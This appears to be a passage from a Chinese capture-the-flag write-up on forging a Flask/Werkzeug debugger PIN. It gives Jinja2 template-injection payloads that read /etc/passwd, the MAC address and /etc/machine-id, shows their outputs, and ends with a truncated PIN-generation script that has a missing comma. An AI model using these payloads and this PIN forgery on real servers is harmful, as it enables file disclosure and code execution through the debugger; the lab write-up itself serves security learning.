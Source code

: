 

所以说提示里说要用到PIN,也没用到... 搜搜其他解法:

>PIN是 `Werkzeug`（它是` Flask` 的依赖项之一）提供的额外安全措施，以防止在不知道 PIN 的情况下访问调试器。 **您可以使用浏览器中的调试器引脚来启动交互式调试器。**
>
>请注意，无论如何，您都不应该在生产环境中使用调试模式，因为错误的堆栈跟踪可能会揭示代码的多个方面。
>
>调试器 PIN 只是一个附加的安全层，以防您无意中在生产应用程序中打开调试模式，从而使攻击者难以访问调试器。
>
>`werkzeug`不同版本以及`python`不同版本都会影响PIN码的生成

如果需要伪造PIN码,需要:

- `username`, 读取`/etc/passwd`获得
- `modname`,默认值是`flask.app`
- `appname`,默认值是`Flask`
- 10进制的mac地址, 通过`/sys/class/net/eth0/address`获得十六进制格式,再转为10进制
- `machine_id` :读取文件`/etc/machine-id ` 或者 `/proc/sys/kernel/random/boot_id 3./proc/self/cgroup`
- `flask/app.py`的路径, 常见的有:`/usr/local/lib/python3.7/site-packages/flask/app.py`,通过报错等信息获得



```
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}
{%endif%}
{%endfor%}
输出中找到了一个名为 flaskweb的可疑用户

{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address').read() }}
{%endif%}
{%endfor%}
输出mac地址56:08:f5:2f:90:51, 转为10进制:94596473262161

{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}
{%endif%}
{%endfor%}
machine-id: 1408f836b0ca514d796cbf8960e45fa1
```

运行脚本,生成pin:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
private_bits = [
    '94596473262161',  # mac地址  str(uuid.getnode()),  /sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'  # get_machine_id(), /etc/machine-id
]
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
```